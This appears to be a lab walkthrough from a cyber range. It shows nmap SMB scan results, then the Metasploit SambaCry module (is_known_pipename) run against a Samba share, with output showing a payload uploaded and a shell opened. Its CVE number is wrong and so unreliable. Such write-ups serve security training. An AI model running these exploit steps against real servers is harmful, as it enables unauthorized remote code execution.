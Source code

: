 ```

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1s, deviation: 1s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.6.0)
|   Computer name: smb
|   NetBIOS computer name: SMB\x00
|   Domain name: example.com.v3-d7cfe5fd-6a9e-4897-b554-d042744f666d.us-east-1.cyberrange.internal
|   FQDN: smb.example.com.v3-d7cfe5fd-6a9e-4897-b554-d042744f666d.us-east-1.cyberrange.internal
|_  System time: 2024-02-08T18:43:43+00:00
| smb2-time: 
|   date: 2024-02-08T18:43:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Check for vulnerabilities
Let's google the Samba version and see if there are any known exploits.
There's a vulnerability `CVE-2017-794` and we're in luck because of target's Samba version is vulnerable to this exploit.
[This medium article](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c) goes into more detail about the exploit and a step by step process on how to gain shell access to the vulnerable machine. 

### Time for some hacking
Go back into the terminal and type `msfconsole` to start metasploit.
Once the metasploit console starts we need to load the exploit
```
use exploit/linux/samba/is_known_pipename
```
Now set the Remote host to the ip of the machine we just scanned
```
set RHOST 10.1.114.133
```
Type `exploit` and the exploit runs and opens a shell to the machine

Here's the output when I ran the exploit
```
[*] 10.1.114.133:445 - Using location \\10.1.114.133\sharedFolder\ for the path
[*] 10.1.114.133:445 - Retrieving the remote path of the share 'sharedFolder'
[*] 10.1.114.133:445 - Share 'sharedFolder' has server-side path '/srv/sharedFolder
[*] 10.1.114.133:445 - Uploaded payload to \\10.1.114.133\sharedFolder\wDqsXtzQ.so
[*] 10.1.114.133:445 - Loading the payload from server-side path /srv/sharedFolder/wDqsXtzQ.so using \\PIPE\/srv/sharedFolder/wDqsXtzQ.so...
[-] 10.1.114.133:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.1.114.133:445 - Loading the payload from server-side path /srv/sharedFolder/wDqsXtzQ.so using /srv/sharedFolder/wDqsXtzQ.so...
[+] 10.1.114.133:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (10.1.121.162:46143 -> 10.1.114.133:445) at 2024-02-08 18:58:58 +0000
```
Just to verify type
`hostname -i` to see the ip of the machine and `whoami` to see what user you are.
```
hostname -i
10.1.114.133
```